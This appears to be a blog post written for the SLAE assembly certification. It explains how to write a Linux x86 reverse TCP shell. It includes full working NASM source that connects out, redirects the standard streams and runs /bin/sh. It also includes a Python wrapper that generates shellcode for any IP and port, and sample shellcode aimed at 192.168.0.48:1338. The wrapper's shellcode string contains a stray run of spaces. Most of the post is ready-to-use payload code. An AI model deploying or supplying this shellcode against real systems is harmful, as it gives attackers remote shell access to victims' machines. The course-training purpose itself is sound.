

# Creating a reverse TCP shell in x86 Assembly

**What is a reverse TCP shell?**

A reverse TCP shell is a program that instead of listening for incoming connections, the program will connect to a remote system and provide a local shell. This is useful in situations where the victim system is behind NAT, meaning you can't directly connect to it, instead the server will connect to you. For this reason, reverse TCP shells are usually prefered over bind shells.

## Okey let's do this, leeeerooooyyy jeeeeeenkins

Our previous article followed these steps to create a bind shell:
1. Create a socket
2. Bind the socket
3. Listen for connections
4. Accept new connections
5. Execute shell

This program will only need the following steps:
1. Create a socket
2. Connect to remote system
3. Execute shell

As can be seen, the reverse shell requires less steps and less code in order to function. For this assignment, I did not create a reference program in C, because most of the code was borrowed from our previous bind shell article. The only new code section in this assignment is the connect() function.

```nasm
global _start

section .text

_start:

    ; zero out registers
    xor eax, eax
    xor ebx, ebx
    xor edx, edx

    ; -------------------------------------
    ; # Setup socket

    ; socketcall()
    mov al, 0x66     ; __NR_socketcall 102
    mov bl, 0x1      ; SYS_SOCKET

    ; # Setup socket
    ; Resulting file descriptor is saved to eax
    push edx
    push 0x1
    push 0x2
    mov ecx, esp     ; Arguments are located top of the stack
    int 0x80         ; Tell the kernel it's time to boogie
    mov edi, eax     ; $eax contains the file descriptor created by socket(), store it in $edi for now
```

After setting up the socketcall wrapper to call connect(), we need to setup the necessary arguments for `connect()`:

```nasm
    ; ---------------------------------
    ; # Setup connect
    ; socketcall
    mov al, 0x66     ; socketcall()
    mov bl, 0x3      ; SYS_CONNECT

    ; setup sockaddr struct
    push 0xfeffff80                 ; 1.0.0.127
    xor dword [esp], 0xffffffff     ; xor IP with key 0xff to get real ip

    push word 0x3905        ; htons(1337)
    push word 0x2           ; AF_INET

    mov ecx, esp     ; Store the address that points to our struct

    ; Push the arguments for connect()
    push 0x10        ; Length of __SOCK_SIZE__ which is 16 (0x10 in hex)
    push ecx         ; Points to our sockaddr_in struct
    push edi         ; Contains our file descriptor

    mov ecx, esp     ; Second parameter for socketcall, points to arguments required by connect()
    int 0x80         ; Tell the kernel let's go!
```

The connec() code section is very similar to the setup needed for listen(), which can be seen in the previous bind shell article. The difference here is that we are specifying an IP to connect to. In order to avoid null bytes, the IP address is XORed with `0xffffffff`. This solution is not bulletproof, because if an IP would contain a `0xFF`, the result of the XOR operation would be `0x00`. 


Now we use `dup2()` to set STDIN, STDOUT, STDERR to our file descriptor, and execute `/bin/sh`. This will expose a local shell to the connected socket, thereby acheiving a remote TCP shell.

```
redirect:
    ; --------------------
    ; # Setup dup2
    ; redirect to stdin
    mov al, 0x3f     ; syscall number dup2 63 --> 0x3f
    mov ebx, edi     ; peer's file descriptor
    mov ecx, edx     ; STDIN
    int 0x80

    ; redirect to stdout
    mov al, 0x3f
    mov cl, 0x1      ; STDOUT
    int 0x80

    ; redirect to stderr
    mov al, 0x3f
    mov cl, 0x2      ; STDERR
    int 0x80

shell:
    ; --------------------
    ; # Setup execv
    xor edx, edx
    push edx

    ; push //bin/sh onto the stack
    push 0x68732f6e
    push 0x69622f2f

    ; Set address of esp to ebx, which points
    ; to //bin/sh
    mov ebx, esp

    xor ecx, ecx
    xor eax, eax
    mov al, 0xb      ; execv syscall
    int 0x80
```

**Final code:**


```
;---------------------------------
;
; Author: dubs3c
;
; Purpose:
; Reverse TCP shell connect
;
;----------------------------------

global _start

section .text

_start:

    ; zero out registers
    xor eax, eax
    xor ebx, ebx
    xor edx, edx

    ; -------------------------------------
    ; # Setup socket

    ; socketcall()
    mov al, 0x66     ; __NR_socketcall 102
    mov bl, 0x1      ; SYS_SOCKET

    ; # Setup socket
    ; Resulting file descriptor is saved to eax
    push edx
    push 0x1
    push 0x2
    mov ecx, esp     ; Arguments are located top of the stack
    int 0x80         ; Tell the kernel it's time to boogie
    mov edi, eax     ; $eax contains the file descriptor created by socket(), store it in $edi for now

    ; ---------------------------------
    ; # Setup connect
    ; socketcall
    mov al, 0x66     ; socketcall()
    mov bl, 0x3      ; SYS_CONNECT
    
    ; setup sockaddr struct
    push 0xfeffff80                 ; 1.0.0.127
    xor dword [esp], 0xffffffff     ; xor IP with key 0xff to get real ip

    push word 0x3905        ; htons(1337)
    push word 0x2           ; AF_INET

    mov ecx, esp     ; Store the address that points to our struct

    ; Push the arguments for connect()
    push 0x10        ; Length of __SOCK_SIZE__ which is 16 (0x10 in hex)
    push ecx         ; Points to our sockaddr_in struct
    push edi         ; Contains our file descriptor

    mov ecx, esp     ; Second parameter for socketcall, points to arguments required by connect()
    int 0x80         ; Tell the kernel let's go!

    ; --------------------
    ; # Setup dup2
    ; redirect to stdin
    mov al, 0x3f     ; syscall number dup2 63 --> 0x3f
    mov ebx, edi     ; peer's file descriptor
    mov ecx, edx     ; STDIN
    int 0x80

    ; redirect to stdout
    mov al, 0x3f
    mov cl, 0x1      ; STDOUT
    int 0x80

    ; redirect to stderr
    mov al, 0x3f
    mov cl, 0x2      ; STDERR
    int 0x80

    ; --------------------
    ; # Setup execv
    xor edx, edx
    push edx

    ; push //bin/sh onto the stack
    push 0x68732f6e
    push 0x69622f2f

    ; Set address of esp to ebx, which points
    ; to //bin/sh
    mov ebx, esp

    xor ecx, ecx
    xor eax, eax
    mov al, 0xb      ; execv syscall
    int 0x80

    ; -----------------------------
    ; THE END - HAVE A NICE SHELL |
    ; -----------------------------

```

## Making the address and port configurable

Right now the port `1337` and IP `127.0.0.1` is hardcoded, let's make a wrapper script in python which allows for setting a custom port and IP.

```python
#!/usr/bin/env python3

import sys

def main(ip, port):
    # one liner to convert e.g 127.0.0.1 to \x80\xff\xff\xfe XORed with key 0xff
    # This is to avoid null bytes. However, a null byte can be introduced if one octet is 0xff
    hex_ip = "".join([hex(int(octet)^255).replace("0x","\\x") for octet in ip.split(".")])
    str_port = hex(port).replace('0x','').zfill(4)

    shellcode = r"\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68{ip}\x83\x34\x24\xff\x66\x68{port}\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x3f\x89\xfb\x89\xd1\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1    \x02\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xc0\xb0\x0b\xcd\x80"

    hex_port = "\\x{}\\x{}".format(str_port[:2], str_port[2:])

    if "\\x00" in hex_port:
        print("[-] Sorry, null byte found in that port, chose another port.")
        print("[-] Ports between 1-256 will always contain a null byte.")
        print("[-] Port: {}".format(hex_port))
        sys.exit(1)

    if "\\x00" in hex_ip or "\\x0" in hex_ip:
        print("[-] Sorry, a null byte was found in the XORed value, this is the end for you...")
        print("[-] Value: {}".format(hex_ip))
        sys.exit(1)

    shellcode = shellcode.replace("{port}", hex_port)
    shellcode = shellcode.replace("{ip}", hex_ip)
    print("[+] Reverse TCP shell connecting to {ip}:{port}".format(ip=ip, port=port))
    print("[+] Your Shellcode:")
    print(shellcode)


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python3 wrapper.py <ip> <port>")
        sys.exit(0)

    if int(sys.argv[2]) < 1024:
        print("[!] Warning: Ports < 1024 must be run as a root")

    if len(sys.argv) == 3:
        if (int(sys.argv[2]) > 65535):
            print("[-] Port too large")
            sys.exit(1)
        main(sys.argv[1], int(sys.argv[2]))

```

Running the script yields:
```
dubs3c@slae:~/SLAE/EXAM/github/assignment_2$ python wrapper.py 192.168.0.48 1338
[+] Reverse TCP shell connecting to 192.168.0.48:1338
[+] Your Shellcode:
\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68\x3f\x57\xff\xcf\x83\x34\x24\xff\x66\x68\x05\x3a\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x3f\x89\xfb\x89\xd1\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xc0\xb0\x0b\xcd\x80
```

Screenshot showing the TCP reverse shell in action!



---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
